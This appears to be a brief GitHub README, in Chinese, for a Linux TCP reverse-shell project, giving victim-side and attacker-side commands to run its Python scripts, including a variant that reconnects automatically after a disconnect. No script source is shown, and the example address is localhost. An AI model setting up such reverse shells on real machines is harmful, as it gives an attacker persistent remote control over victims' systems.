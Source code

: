 # linux-tcpreverse
## 受害端反連:

python connect.py 127.0.0.1 8000

python connect1.py (斷線自動連線)
## 攻擊端開啟連線:

python reversetcp.py '' 8000

python reversetcp1.py (美化)
